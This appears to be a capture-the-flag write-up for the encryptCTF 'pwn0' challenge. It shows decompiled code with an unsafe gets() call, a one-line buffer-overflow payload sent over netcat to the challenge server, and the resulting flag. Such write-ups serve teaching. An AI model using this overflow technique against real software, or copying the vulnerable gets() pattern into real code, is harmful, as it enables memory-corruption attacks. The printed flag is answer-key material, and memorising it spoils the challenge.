 # pwn0
Pwn

## Challenge 
How's the josh?

nc 104.154.106.182 1234

author: codacker

## Solution

Decompile in Ghidra

	undefined4 main(void)
	{
	  int iVar1;
	  char local_54 [64];
	  undefined local_14 [16];
	  
	  setvbuf(stdout,(char *)0x0,2,0);
	  puts("How\'s the josh?");
	  gets(local_54);
	  iVar1 = memcmp(local_14,&DAT_0804862d,4); // "H!gh"
	  if (iVar1 == 0) {
	    puts("Good! here\'s the flag");
	    print_flag();
	  }
	  else {
	    puts("Your josh is low!\nBye!");
	  }
	  return 0;
	}

We see that we must make the string, local_14 == "H!gh"

It occurs after a 64 byte buffer

	$ python3 -c 'print("A" * 64 + "H!gh")' 
	| nc 104.154.106.182 1234
	How's the josh?
	Good! here's the flag
	encryptCTF{L3t5_R4!53_7h3_J05H}

## Flag

	encryptCTF{L3t5_R4!53_7h3_J05H}
